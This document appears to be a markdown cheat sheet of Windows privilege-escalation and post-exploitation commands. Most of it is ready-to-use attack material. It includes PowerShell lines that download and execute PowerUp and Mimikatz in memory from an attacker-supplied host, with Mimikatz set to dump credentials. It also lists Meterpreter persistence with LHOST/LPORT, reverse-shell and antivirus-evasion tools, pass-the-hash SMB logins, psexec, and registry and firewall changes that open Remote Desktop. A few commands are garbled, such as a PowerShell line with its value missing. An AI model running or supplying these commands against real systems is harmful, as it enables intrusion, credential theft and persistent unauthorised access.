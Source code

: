 # Privilege Escalation

## basic enumeration
Get Version:
`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`
Check for other drives via meterpreter:
`show_mount`
List intalled programs via meterpreter:
`reg query HKEY_LOCAL_MACHINE\SOFTWARE`
Use powerup in memory without touching disk:
`IEX(New-Object Net.WebClient).DownloadString("http://<ip>:<port>/PowerUp.ps1");Invoke-AllChecks
`

## check the Linux Subsystem for interesting files
Its available in Windows 10 and Server 2016+, usually the path looks like this:
`C:\Users\<name>\AppData\Local\Packages\CanonicalGroup...`


## Persistence
`run persistence -U -i 60 -p <LPORT> -r <LHOST>`


## Searching

Writeable directories:
`dir /a-r-d /s /b`
Files by name:
`dir /s *foo*`
Files by content:
`findstr /s /i <needle> *.*`
Files by owner:
`DIR C:\*.* /S /Q|FIND /i "owner"`  
Search in meterpreter by extension:
`search -f *.<ext>`


## check named pipes

PS `[System.IO.Directory]::GetFiles("\\.\\pipe\\")`


## reverse shell

If no AV is present you can upload the simple nc.exe from Seclists. 

Otherwise Unicorn generates great powershell and hta shells that are difficult to detect. These can be converted with PS2EXE to PE Files when that is required.


## av evasion

* shelter https://www.shellterproject.com/download/ can inject shellcode into legit 32-Bit Executables and is likely to get not detected

## runas

The tool `runas` can use cached credentials with the `/savecred` option, however it will open a new `cmd.exe` which is a problem with remote shells.

```bash cheat runas runas with savecred
runas /user:administrator /savecred "cmd.exe /k whoami"
```

## misc

* you can import empires power-up into meterpreter (https://www.hackingarticles.in/window-privilege-escalation-via-automated-script/)
* escape character in windows is `^`

## isos

* You can get get legit Windows-VMs from https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/

## SMB

```bash cheat smb enumerate
smbmap -R -H \\<ip>

smbclient -L \\<ip> -N

smbclient \\<ip>\share -U <user>

smbget -R <ip>

```

```bash cheat smb login
python2 /usr/bin/smbclient.py <Domain>/<user>@<ip> -hashes <part1>:<part2>

auxiliary/scanner/smb/smb_login  

crackmapexec <ip(s)> -d <domain> -u <user> -p <pass>

exploit/windows/smb/psexec

net use z: \\<ip>\c$ /user:<username> <password>
```

* https://blog.ropnop.com/using-credentials-to-own-windows-boxes/

## Firewall

### Disable Firewall on Windows 7

Changing /d 0, to /d 1.
`Reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server"  /v fDenyTSConnections /t REG_DWORD /d 0 /f`

Or via powershell:
`powershell.exe -ExecutionPolicy Bypass -command 'Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" –Value'`

### Enable Remote Desktop

`netsh advfirewall firewall set rule group="Remotedesktop" new enable=yes`

Or via powershell:
`powershell.exe -ExecutionPolicy Bypass -command 'Enable-NetFirewallRule -DisplayGroup "Remote Desktop"'`

These need a group name. Get them via:
`netsh advfirewall firewall show rule name=all|find "Gruppierung:"`

## RDP

Good clients are xfreerdp, rdesktop and remmina. PTH-Attacks are possible with xfreerdp (See http://www.fuzzysecurity.com/tutorials/16.html).

## In Memory Powershell Payload Download & Execution

`IEX(New-Object Net.WebClient).downloadString('<url>/<payload>') ;<methodName>`

### Useful Payloads:

```bash cheat powerup PowerUp:
IEX(New-Object Net.WebClient).downloadString('<url>/PowerUp.ps1') ;Invoke-AllChecks
```

```bash cheat mimikatz mimikatz powershell:
IEX(New-Object Net.WebClient).downloadString('<url>/MimiKatz.ps1') ;Invoke-Mimikatz -DumpCreds
```

## Powershell Download File

Pay attention to the -Outfile it is very much needed
`Invoke-WebRequest "http://<ip>:<port>/<in file>" -OutFile "<out file>"`

## Powershell in Meterpreter

`load powershell` + `powershell_shell`

## Persistence

`run persistence -U -i 60 -p <LPORT> -r <LHOST>`

## links

* https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/

tags: privesc [privilege escalation] windows powershell iex